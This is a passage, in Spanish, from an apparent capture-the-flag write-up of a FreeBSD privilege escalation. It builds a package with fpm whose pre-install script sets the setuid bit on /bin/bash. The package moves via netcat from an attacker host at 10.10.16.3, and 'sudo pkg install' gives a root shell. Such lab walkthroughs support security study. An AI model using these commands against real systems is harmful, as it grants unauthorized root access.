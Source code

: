 En este caso no funcciona porque la maquina victima no tiene **fpm** instalado. Vemos que este comando solo crea un `.txz`. Lo hacemos desde nuestra maquina
de atacante

```bash
gem install fpm
cd /tmp
mkdir privesc
cd privesc

TF="/tmp/privesc"
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

Aqui ya tenemos el `.txz` en nuestra maquina de atacante. Lo transferimos a la maquina victima

1. Desde la maquina de atacante

    ```bash
    nc -nlvp 443 < x-1.0.txz
    ```

1. Desde la maquina victima

    ```bash
    nc 10.10.16.3 443 > x-1.0.txz
    ```

Ya podemos lanzar la instalacion.

```bash
sudo pkg install -y --no-repo-update ./x-1.0.txz
bash -p
whoami
#Output
root
```

Ya estamos root y podemos leer la flag.
